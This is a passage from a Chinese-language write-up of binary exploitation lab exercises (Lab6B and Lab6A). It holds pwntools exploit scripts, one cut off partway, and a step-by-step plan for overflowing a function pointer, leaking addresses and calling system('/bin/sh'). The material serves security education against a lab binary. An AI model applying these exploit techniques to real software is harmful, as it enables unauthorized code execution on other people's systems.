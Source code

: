 ```python
origin_ret = ''
for i in xrange(4):
    origin_ret += chr(ord(first_ret[i]) ^ (ord('A')^ord('B')))
# little to login
login_addr = '\xf4'+(origin_ret[1].encode('hex')[0]+'a').decode('hex')+origin_ret[2:]

# attemps++
first_rest = first_rest[:4]+chr(ord(first_rest[4])+1)+first_rest[5:]
fake_rest = '\xff'*0x14 + login_addr + '\x14' 
# username ^ password ^ first_rest = fake_rest
second_username = first_username
second_password = ''
for i in xrange(len(fake_rest)):
    second_password += chr(ord(fake_rest[i])^ord(first_rest[i])^ord(second_username[i]))
second_password += 'B'*0x7

p.recvuntil('username: ')
p.sendline(second_username)
p.recvuntil('password: ')
p.sendline(second_password)

p.recvuntil('username: ')
p.sendline('A')
p.recvuntil('password: ')
p.sendline('B')

p.interactive()
```

因为我们覆盖的是main函数中的返回地址，所以需要循环三次正常退出，这里的小细节就是循环过程中栈上的计数器会加一，我们在xor栈上数据的时候也要考虑这一点，才能成功退出返回至login函数，利用如图：

![][4]

## Lab6A

此题中的小问题很多，还是个商品用户系统：uinfo结构体中居然还保存函数指针；setup_account函数中明显会导致溢出uinfo结构体，进而影响函数指针；make_note函数存在明显的栈溢出，此题的目的应该是联合这小问题进行exploit。（源代码有些长就不引用了）利用思路如下：

1. 首先使用setup_account函数溢出函数指针为print_name，因为和原始的函数指针print_listing距离有些远，所以需要和Lab6C一样稍微爆破一下。
2. 同样的print_name由于%s的使用，即可泄露出uinfo结构体，包括函数指针地址，也就泄露了整个代码段和数据段的地址。
3. 结合源码的write_wrap函数可以写出read函数的地址，因为choice 3在调用函数指针的过程中会传递结构体指针参数，进而损坏write_wrap函数需要的参数，所以不能简单地覆盖函数指针调用write_wrap。
4. 那就只好借助make_note函数的栈溢出漏洞，布局参数来调用write_wrap函数，输出read函数的地址。有了read函数的地址，我们就可以推出内存中libc中system函数和/bin/sh字符串的地址。
5. 最后覆盖函数指针调用make_note函数，利用栈溢出布局调用system函数执行/bin/sh。

利用代码如下：

```python
from pwn import *

context.log_level = 'debug'

for i in xrange(32):
    p = process('./lab6A')
    p.sendlineafter('Choice: ', '1')
    p.sendafter('name: ', 'A'*32)
    p.sendafter('description: ', 'B'*90+'\xe2\x5b')
    
    p.sendlineafter('Choice: ', '3')
    try:
        print_name = p.recv(len('Username: ')+32+128+4)[-4:]
        break
    except EOFError as e:
```

[1]: https://wx4.sinaimg.cn/large/ee2fecafly1fphgg3z7b8j20k503774o.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fphgg5021ej20it03mmxo.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg5u6vwj20ja03k0sy.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1fphgg6sr8vj20vf06njs7.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fphgg8rdztj20mt0bita8.jpg
